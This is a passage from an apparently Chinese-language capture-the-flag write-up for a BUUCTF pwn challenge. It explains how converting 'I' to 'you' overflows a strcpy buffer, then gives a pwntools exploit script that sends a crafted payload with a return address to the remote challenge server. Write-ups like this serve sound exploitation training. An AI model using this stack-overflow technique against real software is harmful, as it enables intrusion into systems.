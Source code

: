 ![](截图\8.3.png)

2. 经过测试发现程序会将输入的 大写字母I 转换为字符串you，也就是说一个字节变成了三个字节，在strcpy处v0的长度变为了原来的三倍，最多输入32个大写字母 I，vo长度为32*3=96远远大于0x3C，可以进行栈溢出，也就是0x3C + 4(32位，ebp) = 64    也就是21个大写字母 I 加一个 a

**exp**

```python
from pwn import *
p = remote('node3.buuoj.cn','25779')
payload = "a" + "I" * 21 + p32(0x08048F13)
p.sendline(payload)
p.interactive()
```

3. 执行结果

![](截图\8.4.png)



### 5.ciscn_2019_n_1

